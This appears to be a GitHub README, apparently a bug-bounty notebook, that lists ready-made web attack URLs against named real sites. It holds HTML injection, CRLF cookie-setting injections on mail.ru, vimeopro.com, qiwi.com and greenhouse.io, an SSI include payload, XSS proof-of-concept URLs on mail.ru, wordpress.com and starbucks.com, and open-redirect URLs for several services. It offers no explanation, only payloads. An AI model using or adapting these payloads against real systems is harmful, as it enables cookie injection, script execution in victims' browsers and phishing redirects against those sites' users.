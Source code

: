 # stuff-h1
Bob rov

html injection 

1:<a href="//bf.am">Welcome</a>  in name field


crlf injection

1:https://touch.lady.mail.ru/%0aSet-Cookie:csrftoken=x;domain=.mail.ru;

2:http://www.vimeopro.com/crlftest%0dSet-Cookie:test=test;domain=.vimeopro.com

3:http://ishop.qiwi.com/test%0dSet-Cookie:test2=test;domain=.qiwi.com

SSI injection

1:GET //#"--><!--#include file="robots.txt"-->


xss

1:https://blackfan.ru/x?r=https://realty.mail.ru/%22--%3e%3csvg/onload=alert(document.domain)%3e/%252e%252e

2:https://apps.wordpress.com/support/&quot;&gt;&lt;script&gt;alert(document.domain)&lt;/script&gt;

3:http://newscdn.starbucks.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e   (chrome)

4:http://newscdn.starbucks.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e  (firefox)


Open Redirect

1: https://dashboard.signwithenvoy.com//www.google.com/%2e%2e%2f

2: https://admin.c2fo.com///www.google.com/%2e%2e

3: http://zaption.com///www.google.com/%2f%2e%2e

4:http://greenhouse.io/%0d%0aSet-Cookie:test=test;domain=.greenhouse.io
----------------------------------------------
